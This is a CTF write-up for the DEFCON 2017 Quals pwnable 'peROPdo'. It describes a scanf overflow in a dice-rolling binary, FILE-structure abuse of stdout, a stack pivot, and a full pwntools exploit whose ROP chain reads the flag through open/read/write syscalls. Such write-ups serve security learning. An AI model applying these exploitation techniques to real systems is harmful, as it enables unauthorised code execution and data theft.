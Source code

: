 ```yaml
---
title: DEFCON CTF 2017 Quals -- peROPdo
comments: true
permalink: "/:title/"
tags:
- Python
- C
- DEFCON
- CTF
- Pwnable
- ROP
- BOF
- file_stream_pointer_overflow
categories:
- write-ups
date: '2017-05-02 14:58:00 +0000'
---
```


**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

<!-- more -->

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/
